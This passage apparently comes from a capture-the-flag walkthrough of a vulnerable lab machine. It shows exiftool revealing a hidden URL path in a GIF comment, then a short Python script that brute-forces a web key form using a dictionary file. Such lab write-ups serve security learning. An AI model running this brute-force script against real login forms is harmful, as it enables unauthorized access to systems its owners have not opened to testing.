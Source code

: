 There is an HTTP server on the port 80 and an ssh service on port 777.

## Exploitation

The web server display a picture with a simple message. Neither nikto nor
dirbuster give us some lead.  Let us run `exiftool` on the picture:

### main.gif

![main.gif](/media/2015.09/main.gif)

The comment filed is interesting:

    ExifTool Version Number         : 8.60
    File Name                       : main.gif
    Directory                       : .
    File Size                       : 16 kB
    File Modification Date/Time     : 2015:09:10 10:07:39+02:00
    File Permissions                : rw-r--r--
    File Type                       : GIF
    MIME Type                       : image/gif
    GIF Version                     : 89a
    Image Width                     : 235
    Image Height                    : 302
    Has Color Map                   : No
    Color Resolution Depth          : 8
    Bits Per Pixel                  : 1
    Background Color                : 0
    Comment                         : P-): kzMb5nVYJw
    Image Size                      : 235x302

What can we do with that?

### kzMb5nVYJw

If we put this at the end of our url with land on another page. Dirbuster will
never have find something like that!

It is a simple web page asking us for a key. When looking at the page code we
notice:

> <!-- this form isn't connected to mysql, password ain't that complex --!>

If there is no SQL injection and the password is simple we need to bruteforce it.
I am not a huge fan of bruteforce but I wrote a simple script that use one of my
password dictionary (mostly common word).

    :::python
    import requests

    url = 'http://192.168.0.20/kzMb5nVYJw/index.php'
    f=open('/usr/share/dict/cracklib-small', 'r')
    password=f.readline()
    data = {'key':password}
    r = requests.post(url, data = data)
    while 'invalid' in r.text:
        password=f.readline().strip()
        data = {'key':password}
        r = requests.post(url, data = data)
